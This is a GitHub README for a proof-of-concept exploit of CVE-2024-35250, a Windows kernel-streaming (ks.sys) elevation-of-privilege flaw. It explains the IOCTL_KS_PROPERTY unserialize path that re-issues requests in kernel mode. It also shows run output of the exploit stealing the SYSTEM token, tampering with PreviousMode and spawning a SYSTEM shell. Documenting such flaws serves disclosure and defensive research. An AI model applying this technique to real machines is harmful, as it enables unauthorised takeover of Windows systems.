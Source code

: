 # CVE-2024-35250

**Title:** Windows Kernel-Mode Driver Elevation of Privilege Vulnerability  
**CVE-2024-35250:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-35250  
**Vulnerability Type:** Untrusted Pointer Dereference  
**Tested On:** ks.sys - 10.0.22621.2506    

## Description

CVE-2024-35250 is a logic flaw in the Windows kernel’s streaming (KS.sys) `IOCTL_KS_PROPERTY` handler: its `UnserializePropertySet` path copies a user-provided request and re-issues the IOCTL in kernel mode. By sending a specially crafted `IOCTL_KS_PROPERTY` request with the `KSPROPERTY_TYPE_UNSERIALIZESET` flag, an attacker can trigger this path and force the driver to execute the IOCTL again with Irp->RequestorMode = Kernel, effectively granting an arbitrary kernel-mode IOCTL primitive for privilege escalation.

## Exploit

Tested on: Windows 11 23H2 (05-2024 Build)

```
PS C:\Users\h4x\Desktop> whoami
desktop-3rgmcon\h4x
PS C:\Users\h4x\Desktop> .\CVE-2024-35250.exe
[+] Successfully opened DRM descrambler device!
[+] NT base address fffff8066ba00000
[+] Found EPROCESS of the current process FFFFBA81E8D130C0
[+] Found KTHREAD of the current thread FFFFBA81E57EE080
[+] Found EPROCESS of the system.exe FFFFBA81E0AB9040
[+] pFakeBitmapAddr = 0x0000000010000000
[+] Calling Kernel Streaming....
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22631.3593]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Acknowledgements

- The original research on Kernel Streaming was conducted by [Angelboy](https://x.com/scwuaptx), and it can be found [here](https://devco.re/blog/2024/08/23/streaming-vulnerabilities-from-windows-kernel-proxying-to-kernel-part1-en/).
- The [PoC](https://github.com/varwara/CVE-2024-35250/) was developed by Varwara, and the above PoC is based on it.
